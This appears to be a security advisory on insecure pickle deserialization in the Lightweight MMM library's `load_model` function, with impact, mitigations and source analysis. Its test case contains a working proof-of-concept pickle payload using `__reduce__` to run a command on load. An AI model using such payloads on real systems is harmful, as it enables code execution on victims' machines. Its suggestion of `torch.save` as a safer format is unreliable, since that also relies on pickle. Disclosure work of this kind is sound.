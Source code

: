 - Vulnerability Name: Insecure Deserialization in `utils.load_model`
- Description:
  1. An attacker crafts a malicious pickle file containing arbitrary code.
  2. The attacker tricks a user into downloading or providing access to this malicious file, for example, by hosting it on a website or sending it via email.
  3. The user, intending to load a legitimate model, uses the `utils.load_model` function and provides the path to the attacker's malicious pickle file.
  4. The `pickle.load` function in `utils.load_model` deserializes the malicious file without any security checks.
  5. During deserialization, the malicious code embedded in the pickle file gets executed on the user's system.
- Impact:
  - Critical. Successful exploitation of this vulnerability allows for arbitrary code execution on the machine running the Lightweight MMM library.
  - This can lead to full system compromise, including data theft, malware installation, and complete control over the affected system.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
  - None. The code directly uses `pickle.load` without any input validation or sanitization.
- Missing Mitigations:
  - Replace `pickle.load` with a safer serialization method. Consider using `torch.save` with a trusted format if the model can be represented in a format compatible with it.
  - Implement input validation to check the file path and file content before deserialization. However, input validation might be insufficient to prevent all types of insecure deserialization attacks with `pickle`.
  - Warn users about the security risks of loading model files from untrusted sources in the documentation.
- Preconditions:
  - The user must download or have access to a malicious model file provided by the attacker.
  - The user must then attempt to load this malicious file using the `utils.load_model` function.
- Source Code Analysis:
  - File: `/code/lightweight_mmm/utils.py`
  - Function: `load_model`
  ```python
  def load_model(file_path: str) -> Any:
    """Loads a model given a string path.
    ...
    """
    with gfile.GFile(file_path, "rb") as file:
      media_mix_model = pickle.load(file=file) # Insecure deserialization vulnerability
    ...
    return media_mix_model
  ```
  - The `pickle.load(file=file)` line is the source of the vulnerability. It directly deserializes data from the provided file path without any checks, making it susceptible to arbitrary code execution.
- Security Test Case:
  1. Create a malicious pickle file (e.g., `malicious_model.pkl`) with the following Python code embedded:
  ```python
  import pickle
  import subprocess
  import os

  class MaliciousModel:
      def __reduce__(self):
          return (subprocess.Popen, (['touch', '/tmp/pwned'],))

  model = MaliciousModel()
  pickle.dump(model, open('malicious_model.pkl', 'wb'))
  ```
  2. Host `malicious_model.pkl` on a mock website or make it accessible to the user in some way.
  3. In a Python script using `lightweight_mmm`, use `utils.load_model` to load the malicious file:
  ```python
  from lightweight_mmm import utils
  try:
      model = utils.load_model(file_path='malicious_model.pkl') # or path to hosted file
  except Exception as e:
      print(f"Error loading model: {e}")

  # Check if the malicious code was executed (e.g., check if `/tmp/pwned` file exists)
  import os
  if os.path.exists('/tmp/pwned'):
      print("Vulnerability confirmed: Arbitrary code execution successful!")
  else:
      print("Vulnerability test inconclusive: File '/tmp/pwned' not found.")
  ```
  4. Run the Python script. If the vulnerability is present, the malicious code (creating `/tmp/pwned` file in this example) will be executed.